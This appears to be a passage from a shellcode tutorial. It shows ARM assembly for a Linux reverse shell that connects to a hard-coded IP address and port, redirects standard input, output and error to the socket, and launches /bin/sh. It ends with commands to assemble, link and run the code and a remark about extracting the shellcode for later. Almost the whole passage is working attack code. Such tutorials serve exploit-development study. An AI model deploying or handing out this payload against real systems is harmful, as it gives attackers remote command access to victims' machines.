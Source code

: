         @ syscall #281 socket(AF_INET, SOCK_STREAM, 0)
        mov r0, #2
        mov r1, #1
        @ r2 is already zero
        mov r7, #200
        add r7, #81
        svc #1

        @ save socket
        mov r4, r0

        @ syscall @283 connect(sock, &sa, 16)
        mov r0, r4
        adr r1, _sa
        mov r2, #16
        add r7, #2
        svc #1

        @ syscall #63 dup2(sock, stdin)
        mov r0, r4
        eor r1, r1, r1
        mov r7, #63
        svc #1

        @ dup2(sock, stdout)
        mov r0, r4
        mov r1, #1
        svc #1

        @ dup2(sock, stderr)
        mov r0, r4
        mov r1, #2
        svc #1

        @ syscall #11 execve("/bin/sh", 0, 0)
        adr r0, _string
        eor r1, r1, r1
        eor r2, r2, r2
        mov r7, #11
        svc #1

    _sa:
    .word 0x5c11ff02
    .word 0x0c0aa8c0

    _string:
    .ascii "/bin/shA"

Start the listener on the remote machine and it works just as the C program did.

    $ as reverse-shell.s -o reverse-shell.o
    $ ld -N reverse-shell.o -o reverse-shell
    $ ./reverse-shell

Extract the shellcode for later.

